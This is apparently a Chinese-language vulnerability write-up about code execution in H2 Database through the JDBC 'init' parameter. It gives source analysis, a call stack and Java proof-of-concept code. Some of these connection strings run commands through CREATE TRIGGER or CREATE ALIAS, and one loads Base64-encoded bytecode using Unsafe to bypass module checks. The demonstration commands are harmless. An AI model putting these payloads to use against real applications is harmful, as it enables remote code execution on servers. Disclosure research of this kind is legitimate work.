





很久前就挖到了，某些原因，一直藏到现在，现公开。
描述
H2DataBase 在所有版本中（截止 2024 年 9 月 14 日，H2 最新版本为 2.3.232）均存在代码执行漏洞，在使用 H2 数据库创建 JDBC 连接时，攻击者可以在初始化时控制触发 Java 代码（所有 JDK 版本），并且不对输入的代码进行检查，从而导致代码执行漏洞。
分析
H2 在解析 init 参数时，会对 CreateTrigger 进行 LoadFromsource 特殊处理，根据内容开头判断是否由 Javasc Ript 引擎执行，如果以 //JavaScRipt/Nashorn 开头，则会编译 JavaScript/Nashorn 引擎并执行。但根据我的研究，Create Trigger 时，我可以直接控制生成 Trigger 的代码，这样在不需要任何引擎都可以执行任何代码，在不限制 JDK 版本的情况下，无疑是巨大的风险。（JDK15 中 JavaScript /Nashorn引擎被彻底移除）
org.h2.command.ddl.CreateTrigger#update

在创建JDBC连接的时候，如果设置了Trigger，那么就会创建TriggerObject。这里的Triggersource，TriggerName，我们都可以控制。
org.h2.schema.TriggerObject#setTriggerAction

完成后会加载到这里
org.h2.util.SourceCompiler#getClass

就是对一些类进行处理，最后利用Javac编译出恶意的Java代码

将恶意的Trigger和Class放入Map中，最后使用LoadClass来加载这个恶意类。

反射调用没什么好说的
Call the stack：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
| loadFromSource:113, TriggerObject (org.h2.schema)
load:87, TriggerObject (org.h2.schema)
setTriggerAction:149, TriggerObject (org.h2.schema)
setTriggerSource:142, TriggerObject (org.h2.schema)
update:125, CreateTrigger (org.h2.command.ddl)
update:139, CommandContainer (org.h2.command)
executeUpdate:304, Command (org.h2.command)
executeUpdate:248, Command (org.h2.command)
openSession:280, Engine (org.h2.engine)
createSession:201, Engine (org.h2.engine)
connectEmbeddedOrServer:344, SessionRemote (org.h2.engine)
<init>:124, JdbcConnection (org.h2.jdbc)
connect:59, Driver (org.h2)
getConnection:681, DriverManager (java.sql)
getConnection:252, DriverManager (java.sql)
main:20, h2client (com.unam4.test)
|
PoC
由于我们直接受 Java 代码控制，因此此问题不受 JDK 版本影响。
这里我有一个本地 JDK17 来复现
Maven 导入最新的依赖项
1
2
3
4
5
| <dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>2.3.232</version>
</dependency>
|
POC
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
| package com.unam4.test;
import javassist.ClassPool;
import javassist.CtClass;
import java.sql.DriverManager;
public class h2client {
public static void main(String[] args) throws Exception {
Class.forName("org.h2.Driver");
String simplexp = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
"INFORMATION_SCHEMA.TABLES AS $$ void Unam4exp() throws Exception{ Runtime.getRuntime().exec(\"open -a calculator\")\\;}$$";
java.sql.Connection conn = DriverManager.getConnection(simplexp);
}
}
|
如果你使用Mac系统，那么他会弹出一个计算器，如果你使用Win系统，可以将命令改为CALC来验证这个漏洞。
最后，其实jdk17（大胆点，jdk通杀）在没有引擎，也可以通过CREATE ALIAS来执行命令 或者准备一个有恶意函数的h2.sql文件，指定后直接call函数
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
| package com.unam4.test;
import javassist.ClassPool;
import javassist.CtClass;
import java.sql.DriverManager;
public class h2client {
public static void main(String[] args) throws Exception {
Class.forName("org.h2.Driver");
ClassPool pool = ClassPool.getDefault();
CtClass ctClass = pool.makeClass("cmd");
ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"open .\");");
String s = java.util.Base64.getEncoder().encodeToString(ctClass.toBytecode());
String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER UNAM4EXP BEFORE SELECT ON\n" +
"INFORMATION_SCHEMA.TABLES AS $$void SHELL3() throws Exception{byte[] bytes\\;Class unsafeClass = Class.forName(\"sun.misc.Unsafe\")\\;java.lang.reflect.Field field = unsafeClass.getDeclaredField(\"theUnsafe\")\\;field.setAccessible(true)\\;sun.misc.Unsafe unsafe = (sun.misc.Unsafe) field.get(null)\\;Module module = Object.class.getModule()\\;long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField(\"module\"))\\;unsafe.putObject(UNAM4EXP.class, offset, module)\\;bytes=java.util.Base64.getDecoder().decode(\""+s+"\")\\;java.lang.reflect.Method defineClassMethod = java.lang.ClassLoader.class.getDeclaredMethod(\"defineClass\", byte[].class,int.class,int.class)\\;defineClassMethod.setAccessible(true)\\;Class clz=(Class)defineClassMethod.invoke(new javax.management.loading.MLet(new java.net.URL[0],java.lang.Thread.currentThread().getContextClassLoader()), bytes, 0,bytes.length)\\;clz.newInstance()\\;}$$";
String simpleexp = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER UNAM4 BEFORE SELECT ON\nINFORMATION_SCHEMA.TABLES AS $$ void UNAM4() throws Exception{ Runtime.getRuntime().exec(\"open .\")\\;}$$";
String url2 = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS 'void shellexec(String b) throws Exception { byte[] bytes\\;try{ Class unsafeClass = Class.forName(\"sun.misc.Unsafe\")\\;java.lang.reflect.Field field = unsafeClass.getDeclaredField(\"theUnsafe\")\\;field.setAccessible(true)\\;sun.misc.Unsafe unsafe = (sun.misc.Unsafe) field.get(null)\\;Module module = Object.class.getModule()\\;long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField(\"module\"))\\;unsafe.putObject(EXEC.class, offset, module)\\;bytes=java.util.Base64.getDecoder().decode(b)\\;}catch (Exception e){e.printStackTrace()\\;bytes=javax.xml.bind.DatatypeConverter.parseBase64Binary(b)\\;}java.lang.reflect.Method defineClassMethod = java.lang.ClassLoader.class.getDeclaredMethod(\"defineClass\", byte[].class,int.class,int.class)\\;defineClassMethod.setAccessible(true)\\;Class clz=(Class)defineClassMethod.invoke(new javax.management.loading.MLet(new java.net.URL[0],java.lang.Thread.currentThread().getContextClassLoader()), bytes, 0,bytes.length)\\;clz.newInstance()\\;}'\\;CALL EXEC('"+s+"')";
java.sql.Connection conn = DriverManager.getConnection(simpleexp);
System.out.println(simpleexp);
}
}
|
tips
最后，这个问题我在几个月前就给h2官方反应过，结果h2给说了，这就是正常功能？？？？我都能直接控制代码，这真的不算洞吗？？